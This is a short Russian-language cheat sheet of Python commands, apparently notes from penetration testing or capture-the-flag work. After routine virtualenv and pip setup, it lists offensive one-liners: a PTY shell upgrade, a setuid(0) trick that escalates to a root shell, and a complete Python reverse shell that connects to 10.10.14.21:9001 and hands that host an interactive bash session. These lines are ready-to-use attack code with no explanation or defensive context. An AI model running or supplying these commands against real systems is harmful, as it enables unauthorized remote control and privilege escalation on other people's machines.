 # Python

# Активировать виртуальную среду


python3 -m venv venv

source venv/bin/activate

pip3 install -r requirements.txt

pip3 install .

# получение виртуальной оболочки внутри текущей сессии

    python3 -c 'import pty;pty.spawn("/bin/bash")'

    export TERM=xterm

# выполнение команд оси

./python3.8 -c “import os; os.setuid(0), os.system(‘/bin/sh’)”

# Reverse shell

    exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
